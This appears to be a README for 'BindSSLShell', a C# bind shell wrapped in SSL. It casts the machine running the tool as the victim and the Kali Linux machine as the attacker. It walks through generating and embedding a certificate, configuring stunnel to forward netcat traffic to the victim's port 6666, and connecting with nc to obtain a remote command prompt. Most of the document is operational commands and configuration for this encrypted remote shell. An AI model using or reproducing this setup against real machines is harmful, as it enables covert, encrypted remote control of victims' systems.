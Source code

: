 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	1. apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	>[nc]
	>client = yes
	>accept = localhost:8443
	>connect = <Victim IP>:6666
	--- end of file ---
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	1. service stunnel4 start
		
1. check if it's running (optional)
	1. >netstat -tulp
	the output should be similar to:
	>Active Internet connections (only servers)
	>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	>tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	>tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	1. nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
